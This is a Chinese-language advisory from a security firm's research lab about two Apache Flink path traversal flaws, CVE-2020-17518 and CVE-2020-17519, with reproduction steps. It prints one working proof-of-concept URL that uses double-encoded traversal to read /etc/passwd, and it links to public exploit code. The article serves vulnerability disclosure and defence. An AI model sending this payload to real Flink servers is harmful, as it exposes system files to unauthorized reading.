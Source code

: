 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/pcKJ_Ucp1S0Ve9r5CaPtWw)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQnibhaibbznlzjxrWLpF8npgIA1iaHetNibicdmZOSIuZO4UBHaiabYicrVmknkNP4rVTxYmpcQNsA0cu7A/640?wx_fmt=png)

本月，Apache Flink 项目公开了该框架中的两个严重的路径遍历漏洞，攻击者可以通过该漏洞在易受攻击的系统上上传和查看任意文件。

Apache Flink 是一个用 Java 和 Scala 编写的开源统一流处理和批处理框架。在披露后的几个小时内，黑客已发布了漏洞的 PoC，可用于攻击存在漏洞的 Apache Flink 实例。

**漏洞复现**

部署 flink-1.11.2[1]

**CVE-2020-17518：通过路径遍历上传任意文件**

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhLv22OZRPqemcHjukDFAPTkHnVavPNiaeIedLRO3eYBJicQ3b6YhfuFXQ/640?wx_fmt=png)

**POC:**

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhDDHbW2ibITiafzMK441K9tKaonFVuFibudf7vI7qF4d17W027b0sR1eqg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhUAG1ZSqT3Ybyiajgc6QMMicnFL5bfmCWv5XVuicCGWYDuBpqpSRsuPF1w/640?wx_fmt=png)

**CVE-2020-17519：通过路径遍历读取任意文件**

**POC:**

| 

http://10.0.0.2:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

 |

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnQ6zmbJT8JmSXZIpRYEIsDhezMtYJ2ltqbia57HC45NwuHriaepvtEZVnC0qDCR8haxhGG7DywGC0Cg/640?wx_fmt=png)

**参考链接**

1.  https://archive.apache.org/dist/flink/flink-1.11.2/
    
2.  https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17518
    
3.  https://github.com/B1anda0/CVE-2020-17519/blob/main/CVE-2020-17519.py
    

**关于山石网科安全技术研究院**

  

  

  

    山石安研院是山石网科的信息安全智库部门，主要负责反 APT 研究、出战及承办全球攻防赛事、高端攻防技术培训、全球中英文安全预警分析发布、各类软硬件漏洞挖掘和利用研究、承接国家网络安全相关课题、不定期发布年度或半年度的各类技术报告及公司整体攻防能力展现。技术方向包括移动安全、虚拟化安全、工控安全、物联安全、区块链安全、协议安全、源码安全、反 APT 及反窃密。  
    为多省公安厅提供技术支撑工作，为上合峰会、财富论坛、金砖五国等多次重大活动提供网络安保支撑工作。在多次攻防赛事中连获佳绩，网安中国行第一名，连续两届红帽杯冠军、网鼎杯线上第一名，在补天杯、极棒杯、全国多地的护网演习等也都获得优秀的成绩，每年获得大量的 CNVD、CNNVD、CICSVD、CVE 证书、编号和致谢。如需帮助请咨询 hslab@hillstonenet.com

![](https://mmbiz.qpic.cn/mmbiz_jpg/Gw8FuwXLJnSWuIjGFp2q9CdPia5gDNPoVcTmJNicOGv7G8JhomWthCbtIGXrhLJeia8F5FbTwY6tGJHOxA74xbCGQ/640?wx_fmt=jpeg)